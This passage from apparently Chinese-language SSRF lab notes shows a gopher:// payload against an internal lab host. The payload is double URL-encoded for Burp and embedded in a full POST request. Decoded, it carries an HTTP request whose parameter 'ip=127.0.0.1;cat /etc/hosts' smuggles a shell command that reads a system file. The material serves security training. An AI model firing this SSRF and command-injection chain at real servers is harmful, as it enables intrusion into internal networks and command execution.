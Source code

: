 #### 使用gopher协议

```
gopher://172.72.23.24:80/_111
```

![image-20240905103705086](https://image.201068.xyz/assets/29.SSRF/image-20240905103705086.png)

![image-20240905103754511](https://image.201068.xyz/assets/29.SSRF/image-20240905103754511.png)

##### burp使用2次url编码

burp中使用2次url编码

```
gopher%3A%2F%2F172.72.23.24%3A80%2F_%25%35%30%25%34%66%25%35%33%25%35%34%25%32%30%25%32%66%25%32%30%25%34%38%25%35%34%25%35%34%25%35%30%25%32%66%25%33%31%25%32%65%25%33%31%25%30%64%25%30%61%25%34%38%25%36%66%25%37%33%25%37%34%25%33%61%25%32%30%25%33%31%25%33%37%25%33%32%25%32%65%25%33%37%25%33%32%25%32%65%25%33%32%25%33%33%25%32%65%25%33%32%25%33%34%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%34%63%25%36%35%25%36%65%25%36%37%25%37%34%25%36%38%25%33%61%25%32%30%25%33%32%25%33%37%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%35%34%25%37%39%25%37%30%25%36%35%25%33%61%25%32%30%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%32%64%25%37%37%25%37%37%25%37%37%25%32%64%25%36%36%25%36%66%25%37%32%25%36%64%25%32%64%25%37%35%25%37%32%25%36%63%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35%25%36%34%25%30%64%25%30%61%25%30%64%25%30%61%25%36%39%25%37%30%25%33%64%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%62%25%36%33%25%36%31%25%37%34%25%32%30%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%36%38%25%36%66%25%37%33%25%37%34%25%37%33
```

![image-20240905104106230](https://image.201068.xyz/assets/29.SSRF/image-20240905104106230.png)

```bash
POST / HTTP/1.1
Host: 192.168.70.24:8080
Content-Length: 4830
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.70.24:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.24:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

url=
gopher%3A%2F%2F172.72.23.24%3A80%2F_%25%35%30%25%34%66%25%35%33%25%35%34%25%32%30%25%32%66%25%32%30%25%34%38%25%35%34%25%35%34%25%35%30%25%32%66%25%33%31%25%32%65%25%33%31%25%30%64%25%30%61%25%34%38%25%36%66%25%37%33%25%37%34%25%33%61%25%32%30%25%33%31%25%33%37%25%33%32%25%32%65%25%33%37%25%33%32%25%32%65%25%33%32%25%33%33%25%32%65%25%33%32%25%33%34%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%34%63%25%36%35%25%36%65%25%36%37%25%37%34%25%36%38%25%33%61%25%32%30%25%33%32%25%33%37%25%30%64%25%30%61%25%34%33%25%36%66%25%36%65%25%37%34%25%36%35%25%36%65%25%37%34%25%32%64%25%35%34%25%37%39%25%37%30%25%36%35%25%33%61%25%32%30%25%36%31%25%37%30%25%37%30%25%36%63%25%36%39%25%36%33%25%36%31%25%37%34%25%36%39%25%36%66%25%36%65%25%32%66%25%37%38%25%32%64%25%37%37%25%37%37%25%37%37%25%32%64%25%36%36%25%36%66%25%37%32%25%36%64%25%32%64%25%37%35%25%37%32%25%36%63%25%36%35%25%36%65%25%36%33%25%36%66%25%36%34%25%36%35%25%36%34%25%30%64%25%30%61%25%30%64%25%30%61%25%36%39%25%37%30%25%33%64%25%33%31%25%33%32%25%33%37%25%32%65%25%33%30%25%32%65%25%33%30%25%32%65%25%33%31%25%33%62%25%36%33%25%36%31%25%37%34%25%32%30%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%36%38%25%36%66%25%37%33%25%37%34%25%37%33
```
